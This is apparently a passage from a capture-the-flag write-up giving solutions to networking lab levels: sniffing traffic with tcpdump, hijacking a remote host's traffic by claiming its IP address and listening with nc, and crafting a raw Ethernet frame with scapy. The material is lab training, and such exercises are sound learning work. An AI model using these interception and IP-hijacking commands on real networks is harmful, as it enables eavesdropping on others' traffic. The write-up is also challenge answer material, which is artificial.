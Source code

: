 ```bash
tcpdump -A
```

## level6
> Monitor slow traffic from a remote host

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will monitor slow traffic from a remote host.
Your host is already receiving traffic on port `31337`.

```bash
tcpdump -Q in "tcp[tcpflags]&tcp-push!=0" -X -q -l | grep 0x0030
```

or you can use wireshark


## level7
> Hijack traffic from a remote host by configuring your network interface

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will hijack traffic from a remote host by configuring your network interface.
The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.2` on port `31337`.

```bash
ip addr add 10.0.0.2/16 dev eth0

nc -l 31337
```

## level8
> Manually send an Ethernet packet

In this series of challenges, you will be working within a virtual network in order to intercept networked traffic.
In this challenge you will manually send an Ethernet packet.
The packet should have `Ether type=0xFFFF`.
The packet should be sent to the remote host at `10.0.0.3`.

```python
scpay

>>> get_if_list()
['lo', 'eth0']
>>> get_if_hwaddr("eth0")
'06:3f:d7:4f:63:40'
>>> pk=Ether(src="06:3f:d7:4f:63:40",dst="ff:ff:ff:ff:ff:ff",type=0xFFFF)
>>> srp(pk,iface="eth0")
```

## level9
> Manually send an Internet Protocol packet
